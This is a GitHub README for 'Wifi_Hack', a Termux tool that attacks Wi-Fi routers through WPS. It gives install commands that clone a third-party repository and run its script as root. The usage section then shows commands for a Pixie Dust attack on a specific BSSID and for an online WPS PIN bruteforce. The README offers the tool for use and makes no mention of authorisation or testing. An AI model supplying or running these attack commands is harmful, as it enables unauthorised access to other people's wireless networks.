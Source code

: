 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://ibb.co/C6qj408/Custom Design.png"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/itzovi/NeelXViper
$ cd NeelXViper
$ chmod +x Viper.py
$ sudo python Viper.py --help
```

#### Example : `sudo python Viper.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Viper.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Viper.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Viper.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
